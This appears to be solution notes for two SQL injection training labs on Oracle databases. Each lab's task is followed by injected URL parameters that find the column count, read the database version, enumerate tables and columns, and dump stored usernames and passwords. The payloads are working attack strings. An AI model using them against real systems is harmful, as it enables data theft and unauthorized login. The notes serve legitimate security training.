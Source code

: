 # Lab: SQL injection attack, querying the database type and version on Oracle

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

```
/filter?category=Gifts' ORDER BY 2-- -have 2 column

/filter?category=Gifts' SELECT null,null-- -ERROR

/filter?category=Gifts' SELECT null,null from dual-- -Good

/filter?category=Gifts' UNION SELECT banner,null FROM v$version-- -
```

# Lab: SQL injection attack, listing the database contents on Oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the`administrator`user.

```
/filter?category=Gifts' union SELECT table_name,null FROM all_tables--

/filter?category=Gifts' union SELECT column_name,null FROM all_tab_columns WHERE table_name='USERS_VZNTQG'--

/filter?category=Gifts' union SELECT USERNAME_OIBKHU,PASSWORD_SIFBED FROM USERS_VZNTQG--
```

